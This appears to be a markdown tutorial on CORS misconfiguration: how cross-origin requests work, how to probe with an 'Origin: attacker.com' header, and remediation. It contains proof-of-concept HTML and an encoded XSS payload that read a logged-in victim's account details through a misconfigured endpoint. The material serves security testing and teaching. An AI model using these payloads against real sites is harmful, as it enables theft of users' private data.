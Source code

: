# CORS

## Information

Cross-Origin Resource Sharing(CORS) is a mechanism that enables web browsers to perform cross-domain requests using the XMLHttpRequest API in a controlled manner.

Without CORS, websites are restricted to accessing resources from the same origin through what is known as ***same-origin policy***

OWASP TOP 10: A6-Security Misconfiguration vulnerability

## CORS Request

There are two types of CORS requests:
   1. Simple requests
   2. Preflighted requests.

 ### 1. Simple requests
 
**Example:** Web browser sends AJAX **GET** `https:///api.account_detaild` request to `api.mywebsite.com` containing the domain that served the parent page, Consider the below Request.

```
GET /api/account_detaild HTTP/1.1
Host: www.mywebsite.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: ru,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Origin: www.mywebsite.com

```
The web client inform to server its source domain using the HTTP request header "Origin". 

You get below response with the **Access-Control-Allow-Origin** header setting. 
```
HTTP/1.1 200 OK
Date: Sat, 16 May 2020 00:2:03 GMT
Content-Type: application/xml
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: www.mywebsite.com 
```
🏁 The header is configured with `Access-Control-Allow-Origin: www.mywebsite.com` It means ***Only***✔️ `www.mywebsite.com` domain can access the resources.

🏴‍☠️ IF header is configured with a wildcard **`( * )`** or **`(null)`**. It means **Any domain**☢️  can access the resources.
```
HTTP/1.1 200 OK
Date: Sat, 16 May 2020 00:2:03 GMT
Content-Type: application/xml
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: *
```

🏴 IF the server does not allow a cross-origin request then you will get error⚠️ page

### 2. Preflighted requests

***Preflight request*** is a CORS request that checks to see IF the CORS protocol is understood and a server is aware using specific methods and headers.

It is OPTIONS method request using three HTTP request headers: `Access-Control-Request-Method`, `Access-Control-Request-Headers` & `Origin` header.

When performing certain types of cross-domain AJAX requests, browser first sends an HTTP request using the OPTIONS method (which is called as "preflight" request) to determine whether they have permission to perform the action or IF the actual request is safe to send. CORS requests are preflighted this way because they may have implications to user data.

**Example:** Browser send request to server and check IF it would allow a DELETE request, before sending a DELETE request, by using a preflight request:
```
OPTIONS /api/account_detaild
Access-Control-Request-Method: DELETE
Access-Control-Request-Headers: origin, x-requested-with
Origin: www.mywebsite.com 
```
IF the server allows this⬆️ request, then it will respond to the preflight request with `Access-Control-Allow-Methods` response header, which lists `DELETE`

```
HTTP/1.1 204 No Content
Access-Control-Allow-Origin: www.mywebsite.com 
Access-Control-Allow-Methods: POST, PUT, OPTIONS, DELETE
Access-Control-Max-Age: 223000
```
🏴 IF the server does not allow a cross-origin request then you will get error⚠️ to the OPTIONS request and the browser will not make the actual request.

## Detect CORS misconfiguration     

Simply add new request in Header: **Origin: attacker.com** or **Origin: null** 

🏴‍☠️ If you find `Access-Control-Allow-Origin: attacker.com` ***or*** `Access-Control-Allow-Origin: *` ***or*** `Access-Control-Allow-Origin: null` it means domain is ☢️vulnerable.

***Another way to check Insecure CORS:*** `curl www.website.com -H "Origin: http://attacker.com" -I `

### 🔎 How to check website has CORS vulnerable or not:

Identify Response **Access-Control-Allow-Origin** Header 

1. Origin with null. [Poorly Implemented -> Exploitable]
```
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: null
```

2. Origin with Other Domain. [Poorly Implemented -> Best Case for Attack]
```
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: vulnerablesite.com 
```

3. CORS misconfiguration using wildcards such as (*) [Poorly Implemented but -> Not Exploitable]
```
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: * 
```

## POC - Exploite Code
1. Mentioned below is the exploit code to exploit misconfigured ***Simple requests*** CORS

```javascript
<!DOCTYPE html>
<html>
   <head>
      <script>
         function cors() {
            var xhttp = new XMLHttpRequest();
                xhttp.onreadystatechange = function() {
                    if (this.readyState == 4 && this.status == 200) {
                        document.getElementById("emo").innerHTML = alert(this.responseText);
            }
         };
         xhttp.open("GET", "https://www.website.com/api/account_detaild", true);
         xhttp.withCredentials = true;
         xhttp.send();
         }
      </script>
   </head>
   <body>
      <center>
      <h2>CORS - POC Exploit </h2>
      <button type="button" onclick="cors()">Exploit CORS</button>
   </body>
</html>
```

2. You can exploit this misconfiguration CORS using XSS so just replace payload <scropt>**alert(document.domain)**</script> 
    
    - XSS Payload for Exploite CORS:
```javascript
<script>function%20cors(){var%20xhttp=new%20XMLHttpRequest();xhttp.onreadystatechange=function(){if(this.status==200)alert(this.responseText);document.getElementById("demo").innerHTML=this.responseText}};xhttp.open("GET","https://www.website.com/api/account_detaild",true);xhttp.withCredentials=true;xhttp.send()}cors();</script>
```


## Remediation

* Allow only **Trusted domains** `Access-Control-Allow-Origin: <origin>` header.
  
     Example: `Access-Control-Allow-Origin: https://www.mywebsite.com`

* Avoid whitelisting null: `Access-Control-Allow-Origin: null`

* Don't use wildcard selection like: `*.mywebsite.com`

* Always include protocol (https://www) and non-standard ports (8081).

     Example: `Access-Control-Allow-Origin: https://www.mywebsite.com:8081` 

* CORS defines browser behaviors and is never a replacing for server-side protection of sensitive data - an attacker can directly forge a request from any trusted origin. Therefore, web servers should continue to apply protections over sensitive data such as authentication and session management, in addition to properly configured CORS

## Refrence

- https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS

- https://hackerone.com/reports/470298 

- https://medium.com/bugbountywriteup/think-outside-the-scope-advanced-cors-exploitation-techniques-dad019c68397

- https://www.moesif.com/blog/technical/cors/Authoritative-Guide-to-CORS-Cross-Origin-Resource-Sharing-for-REST-APIs/ 
